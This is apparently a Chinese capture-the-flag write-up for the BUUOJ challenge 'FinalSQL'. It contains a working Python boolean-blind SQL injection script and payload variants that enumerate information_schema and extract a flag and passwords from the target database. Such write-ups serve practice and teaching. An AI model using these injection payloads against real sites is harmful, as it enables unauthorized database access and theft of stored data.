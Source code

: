 # [极客大挑战 2019]FinalSQL
![](<./img/Pasted image 20221214145735.png>)

---
首页长这样

![](<./img/Pasted image 20221214145759.png>)

`flag`是不可能白送的，这辈子都是不可能白送的.jpg

点击数字之后访问
```php
/search.php?id=xxx
```
对于无效数字，响应是

![](<./img/Pasted image 20221214145910.png>)

使用布尔盲注来获取数据库信息
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/search.php"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'ERROR'

for i in range(1, 200):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.get(url, params)
        time.sleep(0.2)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```
`buuoj`这个429好严QAQ

![](<./img/Pasted image 20221214150250.png>)

修改`fmt`来爆`geek`数据库的表
```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'geek\')),%d,1))>%d)'
```
![](<./img/Pasted image 20221214150608.png>)

再次修改`fmt`来获取两张表的列
```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'F1naI1y\')),%d,1))>%d)'
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'Flaaaaag\')),%d,1))>%d)'
```
![](<./img/Pasted image 20221214150759.png>)

![](<./img/Pasted image 20221214150844.png>)

胜利近在咫尺
```python
fmt = '0^(ord(substr((select(group_concat(fl4gawsl))from(geek.Flaaaaag)),%d,1))>%d)'
```

![](<./img/Pasted image 20221214151723.png>)

![](<./img/Pasted image 20221214151710.png>)

谢谢有被出题人问候到

被骗了，这个表存的好像是问候语
```python
fmt = '0^(ord(substr((select(group_concat(password))from(geek.F1naI1y)),%d,1))>%d)'
```

![](<./img/Pasted image 20221214152922.png>)

出离愤怒😡

![](<./img/Pasted image 20221214153534.png>)

#Web #SQL注入 #布尔盲注 